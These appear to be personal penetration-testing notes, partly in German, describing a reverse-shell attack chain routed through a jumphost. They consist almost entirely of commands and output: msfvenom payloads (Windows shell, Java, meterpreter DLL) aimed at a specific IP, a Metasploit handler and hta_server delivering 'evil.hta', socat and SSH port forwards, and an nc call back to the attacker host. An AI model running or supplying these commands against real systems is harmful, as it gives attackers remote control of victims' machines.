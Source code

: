 # Prepair
```
msfvenom -a x86 -p windows/shell/reverse_tcp LHOST=178.254.30.161 LPORT=443 -f hta-psh
msfvenom -a x86 -p java/shell_reverse_tcp LHOST=178.254.30.161 LPORT=443 -o foo.jar -f jar
msfvenom -p windows/meterpreter/reverse_tcp LHOST=178.254.30.161 LPORT=443 -f dll -o pentestlab.dll
```

## Multihandlet payload
```
use exploit/multi/handler
set payload java/shell/reverse_tcp
set LHOST localLaptop
set LPORT 4444
set VERBOSE TRUE
run
```

## on Laptop where Multihandler is launched
```
msf > use exploit/windows/misc/hta_server
      set URIPATH evil.hta
      set LPORT 4444
      set VERBOSE TRUE
      run
[*] Exploit running as background job.
[*] Started reverse TCP handler on 192.168.178.27:4444
[*] Using URL: http://0.0.0.0:8080/evil.hta
[*] Local IP: http://192.168.178.27:8080/evil.hta
[*] Server started.
```

## Muss noch ein zweiten socat setzen der incoming powershell rev an :4444 weiterreicht ???
port forward on jumphost
```
root@jumphost:~# socat -d -d -d tcp4-listen:80,reuseaddr,fork tcp4:127.0.0.1:1111
root@jumphost:~# socat -d -d -d tcp4-listen:4444,reuseaddr,fork tcp4:127.0.0.1:2222
```

## port forward on jumphost - only connections from range allowed
```
root@jumphost:~# socat -d -d -d tcp4-listen:80,reuseaddr,fork,range=193.28.64.18/32 tcp4:127.0.0.1:1111
root@jumphost:~# socat -d -d -d tcp4-listen:80,reuseaddr,fork,range=84.170.159.180/32 tcp4:127.0.0.1:1111
user@Local$ ssh -NfR 1111:127.0.0.1:8080 root@178.254.30.161 # Remote port forward to jumphost

root@jumphost:~# netstat -tulpen
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      0          1347484488  4765/socat
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          1312344026  227/sshd
tcp        0      0 127.0.0.1:1111          0.0.0.0:*               LISTEN      1000       1347484421  4764/sshd
```

## victim accsses hta on jumphost
```
http://178.254.30.161/evil.hta
```

## simulated victim rev Shell incoming
```
echo "remote c" | nc 178.254.30.161 80
```

## Spaawning
spawn multihandler 4444 ->  connect multihandlet 2 ssh port 127.0.0.1:5555
user@Local$ socat -d -d  TCP:localhost:4444 TCP:localhost:5555

tags: #reverse_shell #meterpreter #jumphost #ssh 
